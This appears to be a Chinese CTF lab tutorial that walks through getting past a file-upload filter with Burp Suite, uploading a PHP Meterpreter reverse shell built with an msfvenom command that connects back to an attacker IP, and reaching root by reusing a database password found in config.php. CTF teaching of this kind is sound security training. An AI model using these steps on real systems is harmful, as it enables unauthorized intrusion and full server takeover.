










# CTF综合测试低难度：P25：26. 文件上传绕过与权限提升实战

## 概述
在本节课中，我们将学习如何通过文件上传漏洞，结合Burp Suite工具绕过服务器过滤机制，上传Web Shell，并最终获取目标服务器的最高控制权（root权限）。整个过程将涵盖漏洞利用、工具使用和权限提升等关键步骤。

---

## 绕过文件上传过滤机制
上一节我们介绍了如何登录到目标系统的后台并找到文件上传点。本节中，我们来看看如何绕过服务器的文件上传过滤机制。





我们尝试直接上传`.php`文件时，发现服务器只允许上传图片文件（如`.jpg`）。为了上传恶意PHP文件，我们需要修改上传请求的数据包。

以下是具体操作步骤：
1.  将准备好的PHP文件（例如`shell.php`）重命名为图片格式，如`shell.jpg`。
2.  在浏览器中配置代理，使用Burp Suite拦截上传请求。
3.  在Burp Suite中，将拦截到的数据包中的文件名从`shell.jpg`修改回`shell.php`。
4.  将修改后的数据包转发给服务器。



通过此方法，我们成功欺骗了服务器的前端验证，上传了一个PHP文件。

---



## 验证上传与生成Web Shell
我们已经绕过了上传限制，接下来需要验证文件是否上传成功，并生成一个真正的Web Shell。



我们访问服务器的上传目录（例如`/uploads/`），确认`shell.php`文件已存在。但此时文件内容为空，无法执行任何操作。





为了获得服务器的控制权，我们需要生成一个能反弹连接（Reverse Shell）的Web Shell。这需要两个步骤：
1.  在攻击机（Kali）上启动一个监听器，等待目标服务器连接回来。
2.  生成一个包含反弹Shell代码的PHP文件。

以下是生成和准备Web Shell的步骤：
1.  在Kali中使用Metasploit框架生成PHP格式的反弹Shell载荷（Payload）：
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
    ```
    *   `LHOST`：攻击机的IP地址。
    *   `LPORT`：攻击机监听的端口。
2.  使用文本编辑器（如`gedit`）打开生成的`shell.php`文件，删除文件开头的注释符号（例如`/*`），确保代码能被正确执行。
3.  将处理好的`shell.php`文件重命名为`shell2.jpg`，准备上传。





---

## 上传Web Shell与获取初始权限
现在，我们将包含恶意代码的“图片”文件上传到服务器。

重复“绕过文件上传过滤机制”中的步骤：
1.  通过Burp Suite拦截上传`shell2.jpg`的请求。
2.  将数据包中的文件名修改为`shell2.php`。
3.  转发数据包完成上传。

上传成功后，在浏览器中访问这个文件的URL（例如`http://target/uploads/shell2.php`）。此时，如果监听器配置正确，我们将收到来自目标服务器的反向连接。

在Kali的Metasploit监听会话中，执行`id`或`whoami`命令，可以确认我们已经获得了目标服务器上一个Web服务用户的权限（例如`www-data`）。

---

## 权限提升至Root
我们获得了初始的Web Shell，但权限较低。本节中，我们来看看如何挖掘敏感信息，将权限提升至最高（root）。

首先，检查当前用户是否具有`sudo`权限，发现没有。接着，我们尝试在网站根目录下寻找配置文件，通常其中可能包含数据库密码等敏感信息。

使用命令查看`config.php`文件：
```bash
cat /var/www/html/config.php
```
在文件中发现了MySQL数据库的连接信息，包括用户名`root`和密码。

尝试使用此密码进行本地提权：
1.  退出当前的MySQL或Shell会话。
2.  使用`su`命令切换至系统root用户，并输入从配置文件中找到的密码：
    ```bash
    su - root
    # 输入密码
    ```
3.  执行`whoami`或`id`命令，确认已成功获得root权限。

获得root权限后，便可以在文件系统中寻找最终的flag值，通常使用`find`或直接查看特定文件：
```bash
find / -name "*flag*" 2>/dev/null
cat /root/flag.txt
```

---

## 总结
本节课中我们一起学习了完整的渗透测试流程：
1.  **信息收集**：定位目标与漏洞点（上传功能）。
2.  **漏洞利用**：使用Burp Suite绕过前端文件上传过滤。
3.  **建立立足点**：上传Web Shell并获取反向连接，得到初始权限。
4.  **权限提升**：通过挖掘配置文件中的敏感信息（数据库密码），成功提权至root。
5.  **达成目标**：获取系统最高权限，并找到flag。



通过本课的学习，需要掌握两点核心：
*   熟练掌握Burp Suite等安全工具的使用，以及文件上传、SQL注入等常见漏洞的利用方式。
*   在渗透测试或CTF比赛中，要有清晰的思路：从外到内，逐步深入，最终目标是通过各种手段获取root权限并找到flag值。